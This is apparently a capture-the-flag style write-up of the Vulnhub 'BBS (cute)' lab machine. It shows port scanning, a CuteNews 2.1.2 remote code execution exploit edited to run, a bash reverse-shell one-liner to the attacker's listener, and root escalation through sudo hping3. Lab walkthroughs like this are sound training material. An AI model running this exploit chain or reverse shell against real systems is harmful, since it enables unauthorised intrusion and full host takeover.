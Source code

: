 ```yaml
---
title: Vulnhub - BBS (cute)
description: My writeup on BBBS (cute) box.
categories:
 - vulnhub
tags: vulnhub hping3 python cutenews
---
```


![](https://infostory.files.wordpress.com/2016/10/bbs.jpg)

You can find the machine there > [BBS (cute)](https://www.vulnhub.com/entry/bbs-cute-101,567/){:target="_blank"}

## Summary

This box is a really easy but is really really good for beginners. Teach you the importance of exploit editing. We start by finding a vulnerable version of cutenews we edit the exploit and we gain command execution, privesc to root is simple we just exploit hping3. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.18
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 12:47 EEST
Nmap scan report for cute.htb.zte.com.cn (192.168.1.18)
Host is up (0.00046s latency).
Not shown: 65530 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
88/tcp  open  kerberos-sec
110/tcp open  pop3
995/tcp open  pop3s
MAC Address: 08:00:27:3E:4A:A5 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.05 seconds
$ nmap -p 22,80,88,110,995 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 12:48 EEST
Nmap scan report for cute.htb.zte.com.cn (192.168.1.18)
Host is up (0.00035s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04:d0:6e:c4:ba:4a:31:5a:6f:b3:ee:b8:1b:ed:5a:b7 (RSA)
|   256 24:b3:df:01:0b:ca:c2:ab:2e:e9:49:b0:58:08:6a:fa (ECDSA)
|_  256 6a:c4:35:6a:7a:1e:7e:51:85:5b:81:5c:7c:74:49:84 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
88/tcp  open  http     nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: 404 Not Found
110/tcp open  pop3     Courier pop3d
|_pop3-capabilities: IMPLEMENTATION(Courier Mail Server) UTF8(USER) LOGIN-DELAY(10) TOP UIDL PIPELINING STLS USER
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
995/tcp open  ssl/pop3 Courier pop3d
|_pop3-capabilities: IMPLEMENTATION(Courier Mail Server) LOGIN-DELAY(10) TOP UIDL UTF8(USER) PIPELINING USER
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
```

We start by enumerating the port 80, we can see the default apache page. Let's run a quick `dirb` scan.

```
$ dirb http://$ip/ -r

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Sep 24 12:53:27 2020
URL_BASE: http://192.168.1.18/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.1.18/ ----
==> DIRECTORY: http://192.168.1.18/core/                                                  
==> DIRECTORY: http://192.168.1.18/docs/                                                  
+ http://192.168.1.18/favicon.ico (CODE:200|SIZE:1150)                                    
+ http://192.168.1.18/index.html (CODE:200|SIZE:10701)                                    
+ http://192.168.1.18/index.php (CODE:200|SIZE:6175)
```

If we visit `/index.php` we can see the CuteNews login page:

![](https://i.imgur.com/MZnn1kO.png)

In the end we can see the version:

![](https://i.imgur.com/g0WqCT7.png)

## Shell as www-data

Let's search for possible exploits.

```
$ searchsploit cutenews 2.1.2
------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                    |  Path
------------------------------------------------------------------------------------------------------------------ ---------------------------------
CuteNews 2.1.2 - 'avatar' Remote Code Execution (Metasploit)                                                      | php/remote/46698.rb
CuteNews 2.1.2 - Arbitrary File Deletion                                                                          | php/webapps/48447.txt
CuteNews 2.1.2 - Authenticated Arbitrary File Upload                                                              | php/webapps/48458.txt
CuteNews 2.1.2 - Remote Code Execution                                                                            | php/webapps/48800.py
------------------------------------------------------------------------------------------------------------------ ---------------------------------
```

Perfect! :fire: let's mirror the python one in your box.

```
$ searchsploit -m php/webapps/48800.py
  Exploit: CuteNews 2.1.2 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48800
     Path: /usr/share/exploitdb/exploits/php/webapps/48800.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /root/Documents/vulnhub/bbs-cute/48800.py
```

If we try to run it we get an error:

```
$ python3 48800.py 

[->] Usage python3 expoit.py

Enter the URL> http://192.168.1.18/
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
[-] No hashes were found skipping!!!
================================================================

=============================
Registering a users
=============================
```

We have to edit the exploit. Simply we have to remove every `CuteNews` from the URL:

![](https://i.imgur.com/UvueVDU.png)

Do this and save it, now let's run it again and we can see we have command execution:

```
$ python3 48800.py                                                                                            

[->] Usage python3 expoit.py

Enter the URL> http://192.168.1.18/
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
[-] No hashes were found skipping!!!
================================================================

=============================
Registering a users
=============================
[+] Registration successful with username: jiuVQZxLu2 and password: jiuVQZxLu2

=======================================================
Sending Payload
=======================================================
signature_key: 2f8c9b4da3b9fe958e83f6abe83e7edb-jiuVQZxLu2
signature_dsi: b0309d8b10b78e793dd52b31ec8bb678
logged in user: jiuVQZxLu2
============================
Dropping to a SHELL
============================

command > whoami
www-data
```

This sell isnt that good tho, let's spawn a normal reverse shell:

```
command > bash -c 'bash -i >& /dev/tcp/$your_ip/5555 0>&1'
```

```
$ nc -lvp 5555
listening on [any] 5555 ...

www-data@cute:/var/www/html/uploads$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@cute:/var/www/html/uploads$ 
```

## Shell as root

Now while doing the basic enumeration, `sudo -l` says we can run `hping3` as root:

```
www-data@cute:/var/www/html/uploads$ sudo -l
Matching Defaults entries for www-data on cute:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on cute:
    (root) NOPASSWD: /usr/sbin/hping3
```

We can join the interactive mode of hping3 just by running it with no options:

```
www-data@cute:/var/www/html/uploads$ sudo hping3
hping3> whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
hping3> bash -i
root@cute:/var/www/html/uploads# 
```

Let's read the flag:

```
root@cute:~# cat root.txt
0b18032c2d06d9e738ede9bc24795ff2
```

I love such boxes! :D
